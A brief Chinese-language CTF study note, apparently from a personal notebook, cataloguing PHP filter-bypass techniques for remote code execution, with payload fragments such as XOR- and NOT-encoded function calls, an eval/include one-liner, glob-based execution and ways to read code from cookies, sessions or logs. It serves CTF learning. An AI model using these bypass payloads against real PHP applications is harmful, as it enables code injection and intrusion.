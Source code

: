 tags:: CTF/RCE, CTF/PHP/WAF绕过， CTF/PHP/无字母数字RCE

- `'`
	- `"`
- `base_convert`
	- `chr` 拼接
- 空格和括号
	- `eval('include$_GET[url]?>');`
- hex
	- php的`"`支持转义: `"\x61"`
- 和，或，非等二进制操作
	- 异或
	- `((%fe%fe%fe%fe%fe%fe%fe)^(%8e%96%8e%97%90%98%91))();`
	- 取反
	- `${~'%99%93%9E%98'} # $flag`
- `$$`
	- ```php
	  $a = "b"
	  $b = "asd"
	  echo($$a) // 输出asd
	  ```
- 使用不可见字符作为变量名
- glob
	- ```
	  `?><?=`. /???/????????[@-[]`?>`	
	  ```
	- 需要配合文件上传,具体见[[CTF/PHP/无字母数字RCE]]
#### 从其他地方读取
	- 其他未被过滤的参数(GET 或者 POST)
	- session_id()
	- cookie
	- log
- [[CTF/PHP/无字母数字RCE]]
- [[CTF/PHP/特殊标签]]